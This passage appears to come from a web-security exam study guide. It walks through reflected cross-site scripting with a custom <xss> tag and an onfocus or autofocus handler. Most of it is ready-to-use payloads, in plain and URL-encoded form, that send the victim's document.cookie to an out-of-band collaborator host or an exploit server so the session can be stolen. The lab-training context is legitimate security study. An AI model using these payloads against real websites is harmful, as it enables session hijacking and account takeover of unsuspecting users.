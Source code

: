 ***Identify*** if above custom tag is not block in search function, by observing the response. Create below payload to steal session cookie out-of-band.  

```
<script>
location = 'https://TARGET.net/?search=<xss+id=x+onfocus=document.location='https://OASTIFY.COM/?c='+document.cookie tabindex=1>#x';
</script>
```
   
>**Note:** The custom tag with the ID ```x```, which contains an **onfocus** event handler that triggers the ```document.location``` function. The **HASH** `#` character at the end of the URL focuses on this element as soon as the page is loaded, causing the payload to be called. Host the payload script on the exploit server in ```script``` tags, and send to victim. Below is the same payload but **URL-encoded** format.  

```
<script>
location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```  

![Custom XSS tag](images/custom-xss-tag.png)

>Apart from creating a custom tag the way it is done above and calling it using `#`, it can also be done inside the proper custom tag without calling it explicitly in the URL:

```HTML
<xss autofocus tabindex=1 onfocus=alert(1)></xss>
```

>This code creates a custom tag `<xss>` and performs an `alert(1)` as the event inside the tag. If this string is placed on the search parameter, the result is the following:

![Custom XSS](images/xss_custom.png)

>The same way, we can build a payload to change `document.location` value to the Exploit server with the victim's cookies. An example:

```HTML
<xss autofocus tabindex=1 onfocus=document.location='https://exploit-0a0200e204b1e3f580a2345e018a0029.exploit-server.net/?c='+document.cookie></xss>
```

>Placing this payload in a `script` on the Exploit server like before, has the following impact:

![Result XSS custom](images/result_xss_custom.png)
  